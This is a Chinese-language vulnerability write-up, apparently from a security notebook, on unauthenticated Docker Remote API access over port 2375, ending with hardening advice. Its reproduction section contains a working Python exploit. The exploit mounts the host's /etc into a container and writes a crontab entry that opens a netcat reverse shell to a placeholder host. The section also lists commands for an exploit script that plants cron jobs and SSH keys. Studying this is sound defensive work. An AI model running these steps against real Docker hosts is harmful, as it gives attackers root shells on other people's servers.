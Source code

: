 # Docker 未授权访问

> 原文：[http://book.iwonder.run/0day/Docker/1.html](http://book.iwonder.run/0day/Docker/1.html)

## 一、漏洞简介

#### 1\. 基础介绍

[http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)

docker swarm 是一个将 docker 集群变成单一虚拟的 docker host 工具，使用标准的 Docker API，能够方便 docker 集群的管理和扩展，由 docker 官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用 docker swarm 的时候，发现了管理的 docker 节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，http 访问会返回 404 page not found ，然后他研究了下，发现这是 Docker Remote API，可以执行 docker 命令，比如访问 [http://host:2375/containers/json](http://host:2375/containers/json) 会返回服务器当前运行的 container 列表，和在 docker CLI 上执行 docker ps 的效果一样，其他操作比如创建/删除 container，拉取 image 等操作也都可以通过 API 调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想 swarm 是用来管理 docker 集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装 swarm 的，并且 2375 端口的访问策略是开放的，所以可以直接访问。

#### 2\. 测试环境配置

先关闭 docker，然后开启：

```
sudo service docker stop
# 绑定 Docker Remote Api 在指定端口（这里是 2375），可以自行测试。
sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock 
```

参考 API 规范进行渗透：[https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/](https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/)

操作 Docker API 可以使用 python dockert api 完成。

pip install docker-py

API 使用参考：[https://docker-py.readthedocs.io/en/stable/api/##client-api](https://docker-py.readthedocs.io/en/stable/api/##client-api)

## 二、影响范围

## 三、复现过程

#### 3.1 From:phith0n

利用方法是，我们随意启动一个容器，并将宿主机的/etc 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

```
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}}) 
```

写入 crontab 文件，成功反弹 shell： ![image](img/f406de587056893ca62d5bc66a9654dc.png)

#### 3.2 python 脚本

[https://github.com/Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)

*   安装类库
    `pip install -r requirements.txt`
*   查看运行的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`
*   查看所有的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`
    *   查看所有镜像
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`
    *   查看端口映射
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`
    *   写计划任务（centos,redhat 等,加-u 参数用于 ubuntu 等）
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹 ip -P 反弹端口` `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹 ip -P 反弹端口`
    *   写 sshkey(自行修改脚本的中公钥)
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`
    *   在容器中执行命令
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e "id" -I 容器 id`
    *   删除容器
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器 id`
    *   修改 client api 版本
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`
    *   查看服务端 api 版本
        `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些 exp

[https://github.com/netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
[https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py](https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py)
[https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8](https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8)

#### 4\. 防护策略

1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker 服务才能生效。

2.修改 Docker 的启动参数： 定位到 DOCKER_OPTS 中的 tcp://0.0.0.0:2375，将 0.0.0.0 修改为 127.0.0.1 或将默认端口 2375 改为自定义端口 为 Remote API 设置认证措施。参照 官方文档 配置 Rem

3.注意：该操作需要重启 Docker 服务才能生效。 修改 Docker 服务运行账号。请以较低权限账号运行 Docker 服务；另外，可以限制攻击者执行高危命令。

4.注意：该操作需要重启 Docker 服务才能生效。 设置防火墙策略。如果正常业务中 API 服务需要被其他服务器来访问，可以配置安全组策略或 iptables 策略，仅允许指定的 IP 来访问 Docker 接口。

